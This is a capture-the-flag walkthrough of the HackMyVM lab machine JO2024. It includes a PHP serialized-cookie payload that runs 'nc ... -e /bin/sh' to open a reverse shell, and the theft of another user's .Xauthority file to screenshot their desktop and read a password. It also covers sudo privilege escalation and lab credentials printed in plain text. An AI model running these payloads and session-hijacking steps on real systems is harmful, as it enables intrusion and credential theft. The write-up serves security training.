




## Introduction

| URL | [https://hackmyvm.eu/machines/machine.php?vm=JO2024](https://hackmyvm.eu/machines/machine.php?vm=JO2024) |
| --- | --- |
| Platform | HackMyVM |
| Difficulty |  |

This medium challenge box employed a variety of attacks and techniques, including a PHP Cookie Serialization Attack that leveraged the preferences.php file to gain a reverse shell. Once access was obtained as the www-data user, the .Xauthority file was exploited to capture the vanity user's graphical session, enabling the extraction of sensitive data through a screenshot that revealed their password. Following this, privilege escalation techniques were utilized to run a script as root without a password, allowing for further access to protected content.

## Walkthrough

Initial `nmap` scan

```shell
└─$ nmap -A -sC -p- 192.168.5.103     
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-22 17:56 EDT
Nmap scan report for 192.168.5.103
Host is up (0.0031s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 e7:ce:f2:f6:5d:a7:47:5a:16:2f:90:07:07:33:4e:a9 (ECDSA)
|_  256 09:db:b7:e8:ee:d4:52:b8:49:c3:cc:29:a5:6e:07:35 (ED25519)
80/tcp open  http    Apache httpd 2.4.61 ((Debian))
|_http-server-header: Apache/2.4.61 (Debian)
|_http-title: Paris 2024 Olympic Games
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.20 seconds
```

\
Using `gobuster` we discover `preferences.php`

```shell
└─$ gobuster dir -u http://192.168.5.103 -e -r -x html,htm,asp,aspx,jsp,php,cgi,txt,xml -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.103
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              htm,asp,aspx,php,xml,html,cgi,txt,jsp
[+] Follow Redirect:         true
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
...
http://192.168.5.103/img                  (Status: 200) [Size: 2216]
http://192.168.5.103/index.php            (Status: 200) [Size: 7812]
http://192.168.5.103/index.php            (Status: 200) [Size: 7812]
http://192.168.5.103/preferences.php      (Status: 200) [Size: 3163]
http://192.168.5.103/server-status        (Status: 403) [Size: 278]
Progress: 46140 / 46150 (99.98%)
===============================================================
Finished
===============================================================
```

\
Going to the `preferences.php` website:



\
Using Burp Suite we use the Proxy feature to intercept the traffic when we reload the page:



\
On the far right side of the window we can modify the Decoded from to gain a reverse shell using a PHP Cookie Serialization Attack:

>O:15:"UserPreferences":2:{s:8:"language";s:31:"nc 192.168.5.10 9999 -e /bin/sh";s:15:"backgroundColor";s:4:"#ddd";}

 Make sure you replace the IP with your Kali IP address. Also the 31 needs to be modified to match the exact length of the value in the language field.


\
Click Apply changes then Forward.

\
Lets get a better shell:

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

\
We notice that the user vanity is logged in and using x11 / xwindows

```shell
www-data@jo2024:/home/vanity$ w
w
 04:24:52 up 14 min,  1 user,  load average: 0.38, 0.27, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
vanity   tty7     :0               04:10   14:21   0.00s  0.05s /usr/bin/lxsession -s LXDE -e LXDE
```

Browse the contents of the `vanity` user's home folder to discover a "backup" script, which appears to be running every minute as a cron job:

```shell
/home/vanity$ cat backup 
#!/bin/bash

SRC="/home/vanity"
DEST="/backup"

rm -rf /backup/{*,.*}

echo "Starting copy..."
find "$SRC" -maxdepth 1 -type f ! -name user.txt | while read srcfile; do
    destfile="$DEST${srcfile#$SRC}"
    mkdir -p "$(dirname "$destfile")"
    dd if="$srcfile" of="$destfile" bs=4M

    md5src=$(md5sum "$srcfile" | cut -d ' ' -f1)
    md5dest=$(md5sum "$destfile" | cut -d ' ' -f1)
    if [[ "$md5src" != "$md5dest" ]]; then
        echo "MD5 mismatch for $srcfile :("
    fi
    chmod 700 "$destfile"

done

echo "Copy complete. All files verified !"
```

\
Run a while loop to capture the vanity user's .Xauthority file and save it to /tmp/log, before the permissions are restricted by the user's backup script:

```shell
while true; do cat /backup/.Xauthority >> /tmp/log 2>/dev/null;sleep 0.01; done
```

\
Set Xauthority environment variable to use our copy of the user's Xauthority file:

```shell
export XAUTHORITY=/tmp/log
```

\
Take a screenshot of the user's desktop and save it to the /tmp folder:

```shell
cd /tmp
xwd -root -screen -silent -display :0 > screenshot.xwd
```

\
Start a local python HTTP server to serve the /tmp directory containing the screenshot file:

```shell
python3 -m http.server 8888
```

\
On Kali, use wget to download the screenshot file from the target system:

```shell
└─$ wget http://192.168.10.101:8888/screenshot.xwd
```

\
Install the convert tool on Kali, and use it to convert the screenshot file to a .PNG image, and open the image to discover the `vanity` user's password:

```shell
└─$ sudo apt install graphicsmagick-imagemagick-compat
└─$ convert screenshot.xwd screenshot.png
└─$ open screenshot.png
```

\
In the screenshot, we can see that the `vanity` user is viewing a text document with Mousepad, containing the user's password:



\
We can now login to the system as vanity via SSH, using the credentials `vanity:xd0oITR93KIQDbiD` :

```shell
ssh vanity@192.168.5.103
```

\
Run `sudo -l` to discover that user vanity can run a script named `php-server.sh` as root:

```shell
vanity@jo2024:~$ sudo -l
sudo: unable to resolve host jo2024: Name or service not known
Matching Defaults entries for vanity on jo2024:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User vanity may run the following commands on jo2024:
    (ALL : ALL) NOPASSWD: /usr/local/bin/php-server.sh
```

\
View the contents of `php-server.sh`, then run the script as root:

```shell
vanity@jo2024:~$ cat /usr/local/bin/php-server.sh
#!/bin/bash

/usr/bin/php -t /opt -S 0.0.0.0:8000

vanity@jo2024:~$ sudo /usr/local/bin/php-server.sh
```

\
Open the web server using the Burpsuite web browser, and view the HTTP response for `/get_protected_content.php` to discover a password:



\
Use this password `LightningBolt123` as the root user's password to gain root access:

```shell
vanity@jo2024:~$ su root
Password:
root@jo2024:/home/vanity# id
uid=0(root) gid=0(root) groups=0(root)
```